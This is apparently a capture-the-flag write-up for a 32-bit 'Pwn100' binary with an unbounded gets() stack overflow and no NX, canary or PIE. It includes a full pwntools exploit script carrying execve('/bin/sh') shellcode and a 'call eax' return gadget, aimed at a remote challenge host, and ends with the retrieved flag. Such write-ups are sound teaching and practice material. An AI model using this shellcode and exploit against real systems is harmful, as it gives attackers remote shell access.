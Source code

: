 # Pwn100 (pwnage 100)
Author: muffinx

Binary type:

```
pwn100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4eed8d04991f7b37ef1e309f1ecc983d7ff84333, not stripped
```

Binary security measurements:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The functionality is pretty straight forward:

```cpp
char *docopy()
{
  char s; // [sp+10h] [bp-18h]@1

  return gets(&s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  docopy();
  return 0;
}
```

So just a basic stack overflow.
The only function available to us is gets().
Looking at the segments there is no wx(write/execute) segment which could be used to copy data to with gets.

```
.init         080482B0 080482D3 R . X . L dword 0001 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.plt          080482E0 08048320 R . X . L para  0002 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.text         08048320 080484C2 R . X . L para  0003 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini         080484C4 080484D8 R . X . L dword 0004 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.rodata       080484D8 080484E0 R . . . L dword 0005 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame_hdr 080484E0 08048514 R . . . L dword 0006 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame     08048514 080485E4 R . . . L dword 0007 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.init_array   08049F08 08049F0C R W . . L dword 0008 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini_array   08049F0C 08049F10 R W . . L dword 0009 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.jcr          08049F10 08049F14 R W . . L dword 000A public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got          08049FFC 0804A000 R W . . L dword 000B public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got.plt      0804A000 0804A018 R W . . L dword 000C public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.data         0804A018 0804A020 R W . . L dword 000D public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.bss          0804A020 0804A024 R W . . L byte  000E public BSS   32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
extern        0804A024 0804A044 ? ? ? . L para  000F public       32 FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF
```

So we have to execute our shellcode on the stack, which is actually possible since no NX is activated. So let's use some rop to jump into the stack.

When we look at the registers before the ret, we can see that eax actually points to our input.

```
EAX: 0xffffd470 ('A' <repeats 12 times>, "a")
EBX: 0xf7fa3000 --> 0x16fda8
ECX: 0xfbad2288
EDX: 0xf7fa4864 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xffffd488 --> 0xffffd498 --> 0x0
ESP: 0xffffd460 --> 0xffffd470 ('A' <repeats 12 times>, "a")
EIP: 0x804842e (<docopy+17>:	leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048423 <docopy+6>:	lea    eax,[ebp-0x18]
   0x8048426 <docopy+9>:	mov    DWORD PTR [esp],eax
   0x8048429 <docopy+12>:	call   0x80482f0 <gets@plt>
=> 0x804842e <docopy+17>:	leave  
```

I found a ropgadget with that we can jump into our placed shellcode:

```
0x08048386 : call eax
```

Resulting in this exploit:


```python
#!/usr/bin/env python

from pwn import *
context(arch = 'i386', os = 'linux')

#r = process('./pwn100')
r = remote('54.153.19.139', 5252)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0804842F
#continue
#''')

payload = asm('xor eax,eax')
payload += asm('xor ecx,ecx')
payload += asm('xor edx,edx')
payload += asm('xor esi,esi')
payload += asm('mov eax,0x0b')
payload += asm('lea ebx,[esp-8]')
payload += asm('int 0x80')
payload += '/bin/sh\x00'

payload = ('\x90' * (28-len(payload))) + payload
payload += p32(0x08048386) # call EAX


r.sendline(payload)
r.interactive()
```

As you can see I used the shellcoding features of pwntools to build a working shellcode.
The "/bin/sh" string is at the end of the shellcode and the string pointer to it will be put
into ebx by using:

```
lea ebx,[esp-8]
```

Finally we got a shell:

```
$ cat /home/pwn100/flag
Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}
```
